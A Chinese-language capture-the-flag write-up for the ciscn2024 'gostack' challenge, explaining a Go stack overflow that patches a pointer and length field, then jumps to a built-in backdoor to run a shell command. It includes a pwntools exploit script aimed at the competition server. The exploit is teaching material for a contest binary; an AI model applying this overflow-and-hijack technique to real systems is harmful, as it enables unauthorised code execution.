 ```yaml
---
title: ciscn2024 - gostack 
date: 2024/5/23 00:47:00
updated: 2024/9/11 23:35:00
tags:
    - go
    - rop
thumbnail: /assets/ciscn2024/bypass.png
excerpt: 通过栈溢出控制返回地址，利用Go程序的漏洞成功执行命令获取flag。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |yes   |
|go    |1.18.1|

## 解题思路

一道简单的go的栈溢出题

经测试，发现输入0x100个字符后就会报错非法内存访问，调试器跟一下，
发现原来`rbp - 0xc8`的位置上是一个go指针，随便填一个合法地址继续溢出写，
会报什么超出限制，发现`rbp - 0xc0`的位置上是一个较小的值，填0后继续溢出写，
就可以成功控制返回地址了

实际上错误都是由`Fprintf`引发的，第一次解引用了错误的地址，第二次覆盖了一个过大的`len`，
如图所示

![bypass](/assets/ciscn2024/bypass.png)

网上很多wp写rop的链子，很怪，程序不是提供了后门吗。。直接把返回地址修改成`&main.main.func2`，
就可以任意执行一个shell命令，输入`cat flag`就可以获得flag

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './gostack'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *0x4a09d8\nb *0x4a0a88\nc')
    else:
        sh = remote('8.147.132.179', 39522)
    backdoor = 0x4a05a0

    sh.sendline(b'0'*0x100 + p64(0xc000012040) + p64(0) + b'0'*0xc0 +
                p64(backdoor))

    sh.interactive()
```

{% note default fa-flag %}
![success](/assets/ciscn2024/success.png)
{% endnote %}
